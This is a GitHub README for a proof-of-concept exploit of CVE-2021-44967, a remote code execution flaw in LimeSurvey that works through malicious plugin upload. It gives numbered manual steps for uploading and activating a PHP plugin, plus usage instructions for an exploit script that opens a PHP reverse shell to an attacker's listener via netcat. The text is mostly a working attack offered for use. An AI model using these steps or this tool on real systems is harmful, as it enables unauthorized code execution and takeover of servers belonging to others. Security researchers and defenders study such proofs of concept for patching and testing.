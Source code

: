 # CVE-2021-44967

This repository contains a POC (Proof of Concept) of the CVE-2021-44967 vulnerability, which affects to LimeSurvey 5.2 and higher versions. It allows an authenticated user to upload its own malicious plugins, leading to a RCE (Remote Code Execution) through PHP code execution. This exploit uses a PHP reverse shell which is triggered once the malicious plugin is uploaded.

# Explanation

This vulnerability consists on creating a XML config file, a PHP file and then compressing them into a ZIP file. Once you have uploaded, installed and activated the plugin, the PHP code should be accessible on the web. It can be exploited manually following this steps:

1. Create a ZIP containing the PHP file and the config file
2. Login into LimeSurvey
3. Go to Configuration -> Plugins -> Upload & Install
4. Upload your ZIP file
5. Install it
6. Finally, activate your plugin
7. Then your PHP code should be accessible under /upload/plugins/<plugin_name>/<php_file>

# Usage

```
usage: exploit.py [-h] --url URL --user USER --password PASSWORD --lhost LHOST --lport LPORT [--verbose]

LimeSurvey - RCE

options:
  -h, --help           show this help message and exit
  --url URL            URL of the LimeSurvey web root
  --user USER          username to log in
  --password PASSWORD  password of the username
  --lhost LHOST        local host to receive the reverse shell
  --lport LPORT        local port to receive the reverse shell
  --verbose            enable verbose
```

Start a netcat listener and then execute the exploit like this:

```
python3 --url <URL> --user <username> --password <password> --lhost <local host> --lport <local port>
```

# Demo

<img src="demo.png">

# References

```
https://github.com/Y1LD1R1M-1337/Limesurvey-RCE
https://www.exploit-db.com/exploits/50573
https://github.com/p0dalirius/LimeSurvey-webshell-plugin
https://ine.com/blog/cve-2021-44967-limesurvey-rce
https://pentest-tools.com/vulnerabilities-exploits/limesurvey-524-rce-vulnerability_13029
```

# License

This project is under [MIT](https://github.com/D3Ext/LimeSurvey-RCE/blob/main/LICENSE) license

Copyright © 2025, *D3Ext*

